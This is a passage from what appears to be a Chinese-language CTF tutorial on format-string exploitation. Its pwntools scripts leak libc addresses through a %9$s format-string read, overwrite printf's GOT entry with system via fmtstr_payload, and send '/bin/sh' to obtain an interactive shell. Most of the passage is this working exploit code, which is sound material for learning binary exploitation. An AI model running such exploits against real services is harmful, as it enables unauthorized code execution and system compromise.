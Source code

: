 ```python
# print('*'*100)
# print(payload)

# 发送payload
p.sendline(payload)
p.sendline('/bin/shx00')
p.interactive()

```

![3](http://momomoxiaoxi.com/img/post/Fmtstr/3.png)

#### 远程EXP：

在远程EXP过程中，还需要leak libc函数地址。

主要方式有两种：

1. 利用DynELF暴力搜索
2. 利用libcdatabase或libdb查询

具体过程如下：

![getlibc](http://momomoxiaoxi.com/img/post/Fmtstr/getlibc.png)

这样我们就获取到了对应的偏移地址，就可以撰写最终的EXP了：
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import binascii
# context.log_level = 'debug'

r = remote('127.0.0.1',9999)
r.recv()
r.sendline('moxiaoxi')
r.recv()

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    resp = r.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret


printf_plt_addr = 0x8048490
printf_plt_code = leak(printf_plt_addr)
printf_got_plt_addr = u32(printf_plt_code[2:6])


printf_addr = u32(leak(printf_got_plt_addr)[:4])

print('[+]:printf_addr',hex(printf_addr))

libc_addr = printf_addr - 0x00049670
system_addr = libc_addr + 0x0003ada0

payload = fmtstr_payload(7, {printf_got_plt_addr: system_addr})

# 发送payload
```